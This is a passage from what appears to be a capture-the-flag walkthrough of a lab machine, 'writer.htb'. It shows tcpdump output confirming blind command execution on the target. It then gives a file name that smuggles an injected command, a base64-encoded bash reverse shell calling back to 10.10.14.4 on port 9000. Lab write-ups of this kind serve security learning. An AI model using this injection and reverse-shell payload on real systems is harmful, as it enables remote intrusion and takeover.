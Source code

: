 ![](/img2/Pasted%20image%2020250627235138.png)

```bash
❯ tcpdump -i tun0 icmp
```

```ruby
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:51:05.675328 IP writer.htb > 10.10.14.4: ICMP echo request, id 7, seq 1, length 64
23:51:05.675373 IP 10.10.14.4 > writer.htb: ICMP echo reply, id 7, seq 1, length 64
23:51:05.751030 IP writer.htb > 10.10.14.4: ICMP echo request, id 8, seq 1, length 64
23:51:05.751070 IP 10.10.14.4 > writer.htb: ICMP echo reply, id 8, seq 1, length 64
```

- Reverse Shell

```bash
❯ touch 'exploit.jpg;echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDAgMD4mMScK"|base64 -d |bash;'
```
